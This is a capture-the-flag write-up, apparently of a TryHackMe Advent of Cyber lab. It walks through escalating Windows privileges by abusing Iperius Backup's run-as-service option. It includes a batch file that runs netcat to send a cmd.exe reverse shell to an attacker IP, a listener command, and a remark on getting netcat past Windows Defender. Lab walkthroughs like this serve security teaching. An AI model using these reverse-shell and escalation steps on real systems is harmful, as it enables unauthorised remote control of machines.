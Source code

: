 ## Day 13

What good's a disaster recovery plan when it's part of the disaster?

> McSkidy has realized that she worked on a rough draft of a disaster recovery plan but locked down the permissions on the file to ensure that it was safe. However, the Grinch accessed the local system and reduced the permissions of her account. Can you elevate her privileges and get the file back?

Our first step is to RDP into the machine. I like to use `remmina` but maybe you're more of an `xfreerdp` gal. Whatever it is, once we plug in McSkidy's details:

    mcskidy:Password1

We get onto the box. Let's run `net user` to see who's here.  

![](netuser.png)

In the Start Menu, we can see the machine has Iperius Backup installed. As it sounds, it's a backup tool. If we go back to our attacker box and check `searchsploit` for whether Iperius has any exploits, we find a privilege escalation vulnerability:

    searchsploit iperius 

![](privesc.png)

Let's download it:

    searchsploit -m windows/local/46863.txt

And see what it says. It looks like we have to:

1. Log in as a low privilege user (done!)
2. Download netcat from an attacking machine (i.e. our own)
3. Create a batch file to send a shell back to our attacker:

    @echo off
    c:\users\low\downloads\nc.exe 192.168.0.163 443 -e cmd.exe

4. Set up a listener: `nc -lvnp 443`
5. Open Iperius Backup and create a new backup job
6. Right click the new job and select "Run Backup As Service"

Fortunately, there's a version of netcat already sitting in McSkidy's Downloads folder, so let's go to Step 3. A batch file is just a script including Windows commands used for automating repetitive tasks. "@echo off" tells the script to run without popping up a command prompt window and the next line is the command to run netcat, connect to our IP and port, and start cmd.exe for us.  

One thing to note: A lot of versions of netcat are detected and deleted by Windows Defender, the built-in anti-virus. There are ways around this by compiling your own source code (or using someone else's compiled version.)  

Our script looks like this:

    @echo off
    C:\Users\McSkidy\Downloads\nc.exe 10.4.22.22 443 -e cmd.exe

We'll enter that into a new Notepad file and then save it in Downloads.  

![](bat.png)

That's Step 3 done. Now back on our machine we also run netcat by in listener mode, waiting for McSkidy's machine to connect back to us:

    nc -lvnp 443

Now we have to create a new job in Iperius Backup. We can choose any folder to backup and any folder to back it up *to*, the important part is the Other Processes tab. We want to select the batch script we wrote and ensure it runs before the backup.  

![](iperius.png)

Save the job under whatever name you want (it auto-filled the name "Desktop" for me; not bad.) Then right click it and go "Run backup as service"

![](runbackup.png)

See, by running the backup with the normal option, it would run as the current user. That's McSkidy, which is who we'd get a shell as. Not much good: we already have access to her account. By running the backup as service, it uses the permission level of the service itself. We can check which account that is by going back to PowerShell and running `sc.exe qc IperiusSvc`.  

![](grinch.png)

So the Iperius service itself is actually running as `thegrinch`. If we go check our listener now, we should have a shell. And if we run `whoami`, who are we logged in as?

![](revshell.png)

Ol' Grinchypoo. Now let's do some recon with our escalated privileges and answer today's questions.  

>  Complete the username: p..... 

If we do `net user` we can see a user called "pepper"  

> What is the OS version?

TryHackMe's walkthrough specifies a command to narrow this down:

    systeminfo | findstr /B /C: "OS Name"/C: "OS Version"

Personally I like to just run a straight up `systeminfo` because there are tools you can copy the output into (Windows Exploit Suggester e.g.) for further privilege escalation.  

![](systeminfo.png)

The answer is 10.0.17763 N/A Build 17763  

> What backup service did you find running on the system?

How'd I know to look for "IperiusSvc" before? You can list all the services running with the command `sc.exe query` and looking through it. Another way to look at services is with the command `wmic services list` but the default format is absolutely godawful, so I like to make it more sensible with `wmic services list /format:list`. We get:

    AcceptPause=TRUE
    AcceptStop=TRUE
    Caption=Iperius Backup Service
    CheckPoint=0
    CreationClassName=Win32_Service
    Description=
    DesktopInteract=FALSE
    DisplayName=Iperius Backup Service
    ErrorControl=Normal
    ExitCode=0
    InstallDate=
    Name=IperiusSvc
    PathName=C:\Program Files (x86)\Iperius Backup\IperiusService.exe
    ProcessId=3188
    ServiceSpecificExitCode=0
    ServiceType=Own Process
    Started=TRUE
    StartMode=Auto
    StartName=.\thegrinch
    State=Running
    Status=OK
    SystemCreationClassName=Win32_ComputerSystem
    SystemName=THE-GRINCH-HACK
    TagId=0
    WaitHint=0

That answers our next question too.  

> What is the path of the executable for the backup service you have identified?

C:\Program Files (x86)\Iperius Backup\IperiusService.exe

> Run the whoami command on the connection you have received on your attacking machine. What user do you have?

You already know it's the-grinch-hack\thegrinch  

> What is the content of the flag.txt file?

Usually this is in Desktop but today it's in Documents, so we can do...

    type C:\Users\thegrinch\Documents\flag.txt

...to print it out.  

> The Grinch forgot to delete a file where he kept notes about his schedule! Where can we find him at 5:30?

In the same folder:

![](schedule.png)

Oh geez, ah, oh boy. 
